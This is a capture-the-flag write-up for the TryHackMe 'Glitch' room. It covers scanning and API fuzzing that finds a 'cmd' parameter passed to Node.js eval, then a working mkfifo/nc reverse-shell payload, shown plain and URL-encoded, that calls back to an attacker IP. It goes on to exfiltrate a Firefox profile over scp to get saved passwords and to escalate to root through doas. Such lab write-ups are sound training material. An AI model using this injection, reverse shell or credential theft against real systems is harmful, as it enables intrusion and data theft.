





# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```
I run the getAccess() function through the browser by console tab, but you can also access that by browsing to \<machine ip>/api/access



By decoding, I will get the original token and should set that in cookie



## [Q3] What is the content of user.txt?
Now refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at the source and linked [JS](./src/script.js) file, I figured out that there are several links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :


There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So I should fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe I can get rce by Node.js eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, I must encode the payload as a URL, and then It's good to go

    └─$ curl -X POST <Machine IP>/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

I have a reverse shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now, I'm going to check firefox hidden directory by sending that to my machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in my machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open the firefox browser and I can head to saved passwords



Now with linPEAS' output and saved password in the firefox for user v0id I can retrieve /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}
